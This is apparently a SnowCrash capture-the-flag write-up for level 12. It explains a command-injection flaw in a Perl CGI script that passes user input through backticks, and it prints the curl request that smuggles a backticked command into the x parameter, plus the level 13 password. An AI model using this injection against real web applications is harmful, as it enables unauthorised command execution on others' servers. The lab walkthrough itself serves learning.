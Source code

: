 In Level 12, we are tasked with exploiting a Perl CGI script (level12.pl) that accepts parameters through HTTP requests. The script utilizes backticks to execute shell commands based on user input, which opens up an opportunity for command injection.

## Description of the Script
The level12.pl script works as follows:

### 1. Input Handling:

* It accepts two parameters via HTTP: x and y.
* The parameter x is capitalized, and anything after the first space is removed.

### 2. Command Execution:

* The script attempts to match the capitalized x parameter against the contents of the file /tmp/xd using the egrep command.
* If a match is found in the second column of the file, it checks if the y parameter matches the corresponding value.

### 3. Output:

The script returns .. if a match is found, otherwise it returns a dot (.).

# Exploitation Strategy

To exploit the command execution vulnerability, the following steps were taken:

## 1. Create an Exploit Script:

An exploit script was created at `/tmp/EXPLOIT` that contains the command `getflag > /tmp/flag12`. This command, when executed, retrieves the flag and writes it to a file.

``` bash
level12@SnowCrash:~$ echo 'getflag > /tmp/flag12' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

## 2. Craft the CURL Request:

* A CURL request was crafted to execute the exploit script. The x parameter was set to \/*/EXPLOIT``. The use of backticks allows the script to execute the contents of the exploit file.

``` bash
level12@SnowCrash:~$ curl "localhost:4646?x=\`/*/EXPLOIT\`"
```

## 3. Retrieve the Flag:

After executing the CURL command, the output of the getflag command was written to /tmp/flag12.

``` bash
level12@SnowCrash:~$ cat /tmp/flag12
```

## Enter Level 13

level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr